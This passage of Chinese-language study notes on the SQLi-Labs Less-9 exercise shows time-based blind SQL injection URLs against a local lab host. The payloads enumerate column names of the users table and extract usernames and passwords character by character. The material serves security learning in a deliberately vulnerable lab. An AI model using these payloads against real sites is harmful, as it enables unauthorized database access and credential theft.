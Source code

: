 <img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230605212638509.png" alt="image-20230605212638509" style="zoom:50%;" />

#### 爆字段

```
http://192.168.231.129:9001/Less-9/?id=1' and if(ascii(substring((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 1,1),1,1))=117, sleep(0), sleep(3))%23

http://192.168.231.129:9001/Less-9/?id=1' and if(ascii(substring((select column_name from information_schema.columns where table_schema=database() and table_name='users' limit 第几个字段,1),第几个字母,1))=117, sleep(0), sleep(3))%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230605213017492.png" alt="image-20230605213017492" style="zoom:50%;" />

#### 拖库

如果分析不清楚，可以将`username`和`password`分开

```
http://192.168.231.129:9001/Less-9/?id=1' and if(ascii(substring((select concat(username,password) from users limit 1,1),1,1))=65, sleep(0), sleep(3))%23

http://192.168.231.129:9001/Less-9/?id=1' and if(ascii(substring((select concat(username,password) from users limit 第几个用户名密码,1),第几个字母,1))=65, sleep(0), sleep(3))%23
```
